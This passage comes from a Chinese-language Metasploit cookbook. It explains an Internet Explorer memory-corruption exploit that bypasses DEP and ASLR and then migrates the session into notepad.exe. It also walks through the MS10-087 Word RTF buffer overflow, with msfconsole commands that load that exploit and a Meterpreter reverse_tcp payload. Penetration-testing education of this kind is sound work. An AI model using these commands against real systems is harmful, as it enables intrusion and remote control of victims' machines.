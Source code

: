 同一个 CSS 文件被调用了四次。当 mshtml 解析这个 HTML 页面时，就会导致内存损坏。这个漏洞利用利用了堆喷射和.NET 2.0 **mscorie.dll**模块的组合来绕过 DEP 和 ASLR。由于系统资源的过度消耗，最终会崩溃。使用这个漏洞，攻击者获得与已登录用户相同的用户权限。

![工作原理...](img/7423_04_03.jpg)

在前面的屏幕截图中，您可以看到背景是 IE 实例，其中执行了恶意链接，前景图像是 Windows 任务管理器，您可以清楚地看到 IE 浏览器过度消耗内存。在任务管理器中还有一件有趣的事情要注意，那就是 notepad.exe 进程。尽管没有运行 notepad 的实例，但任务管理器仍然显示这个进程。这样做的明显原因是我们已经从 iexplorer.exe 迁移到 notepad.exe，所以这个进程在后台运行。

## 还有更多...

在使用这个漏洞利用模块时，我们可能会遇到一个常见的错误。让我们快速看一下，并找出相关的解决方案。

### 缺少.NET CLR 2.0.50727

在使用这个漏洞利用模块时，您可能会遇到一个错误"目标机器没有.NET CLR 2.0.50727"。嗯，这个错误的原因不是因为缺少.NET。它的主要原因是因为 Internet Explorer 没有设置为默认浏览器，因此用户代理被滥用以从非 ASLR 区域获取地址。通过将 Internet Explorer 设置为默认的 Web 浏览器，可以克服这个错误。

# Microsoft Word RTF 堆栈缓冲区溢出

在前两个教程中，我们完全专注于基于浏览器的漏洞利用。现在在这个教程中，我们将专注于另一个流行的 Windows 工具，称为 Microsoft Office。RTF 缓冲区溢出漏洞存在于 Office 软件包的 2010 和 2007 版本中。这个漏洞存在于 Microsoft Word RTF 解析器中的`pfragments`形状属性的处理中。让我们详细了解这个漏洞利用。我假设我们已经获得了关于我们的目标的信息，即他的系统上安装了 Office 软件包。

## 准备工作

我们将从启动 msfconsole 开始。我们将在这个教程中使用的漏洞可以在`exploit/windows/fileformat/ms10_087_rtf_pfragments_bof`中找到。我们将使用的有效载荷是`windows/meterpreter/reverse_tcp`，以与目标机器建立 shell 连接。

## 如何做...

工作过程将与我们在以前的食谱中看到的类似。我们将首先设置我们的利用。然后，我们将选择一个有效载荷，然后传递相关参数，以便成功执行利用。让我们执行这些步骤。

```
msf > use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof
msf exploit(ms10_087_rtf_pfragments_bof) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(ms10_087_rtf_pfragments_bof) > show options
Module options (exploit/windows/fileformat/ms10_087_rtf_pfragments_bof):
Name Current Setting Required Description
---- --------------- -------- -----------
FILENAME msf.rtf yes The file name.
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST yes The listen address
```